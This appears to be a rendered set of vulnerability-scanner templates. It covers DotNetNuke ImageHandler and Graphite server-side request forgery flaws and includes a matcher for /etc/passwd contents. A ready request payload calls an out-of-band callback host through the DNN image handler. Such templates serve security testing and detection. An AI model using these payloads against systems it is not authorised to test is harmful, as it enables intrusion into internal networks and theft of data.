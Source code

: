 ### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# DotNetNuke (DNN) ImageHandler <9.2.0 - Server-Side Request Forgery

## Description

- DotNetNuke (aka DNN) before 9.2.0 suffers from a server-side request forgery vulnerability in the DnnImageHandler class. Attackers may be able to access information about internal network resources.
- severity - high
- tags - dnn,dotnetnuke,hackerone,cve,cve2017,oast,ssrf

## Requests

- Method - GET

### URL

- {{BaseURL}}/DnnImageHandler.ashx?mode=file&url=http://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - status**

- status
  1. 500

---

# Graphite <=1.1.5 - Server-Side Request Forgery

## Description

- Graphite's send_email in graphite-web/webapp/graphite/composer/views.py in versions up to 1.1.5 is vulnerable to server-side request forgery (SSR)F. The vulnerable SSRF endpoint can be used by an attacker to have the Graphite web server request any resource. The response to this SSRF request is encoded into an image file and then sent to an email address that can be supplied by the attacker. Thus, an attacker can exfiltrate any information.

